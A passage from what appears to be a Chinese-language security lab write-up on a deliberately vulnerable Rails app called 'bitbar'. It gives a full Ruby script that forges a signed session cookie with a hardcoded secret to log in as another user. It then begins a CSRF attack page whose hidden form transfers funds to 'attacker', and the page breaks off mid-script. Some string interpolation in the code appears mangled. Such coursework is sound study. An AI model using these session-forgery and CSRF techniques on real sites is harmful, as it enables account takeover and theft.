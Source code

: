 此时我们就能看到，


浏览器已经认为我们是 `user1` 了

完整代码

```ruby
require 'mechanize'
require 'net/http'
SESSION = '_bitbar_session'
RAILS_SECRET = '0a5bfbbb62856b9781baa6160ecfd00b359d3ee3752384c2f47ceb45eada62f24ee1cbb6e7b0ae3095f70b0a302a2d2ba9aadf7bc686a49c8bac27464f9acb08'

agent = Mechanize.new
url = "http://localhost:3000/login"

page = agent.get(url)

form = page.forms.first
form['username'] = form['password'] = 'attacker'
agent.submit form

cookie = agent.cookie_jar.jar['localhost']['/'][SESSION].to_s.sub("{SESSION}=", '')
cookie_value, cookie_signature = cookie.split('--')
raw_session = Base64.decode64(cookie_value)
session = Marshal.load(raw_session)

puts session
session['logged_in_id'] = 1
cookie_value = Base64.encode64(Marshal.dump(session)).split.join  get rid of newlines
cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, RAILS_SECRET, cookie_value)
cookie_full = "{SESSION}={cookie_value}--{cookie_signature}"

url = URI('http://localhost:3000/profile')

http = Net::HTTP.new(url.host, url.port)

header = {'Cookie':cookie_full}
response = http.get(url,header)
puts response.body
```

 Attack 3: Cross-site Request Forgery

分析，登陆 user1,向attacker转帐，抓到的数据包如下



可见，只需要构造一个表单自动提交即可

`b.html` 内容如下

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    
    <form action="http://localhost:3000/post_transfer" method="post" enctype="application/x-www-form-urlencoded" id="pay">
        < input type="hidden" name="destination_username" value="attacker">
        < input type="hidden" name="quantity" value=10>
    </form>

    <script type="text/javascript">
```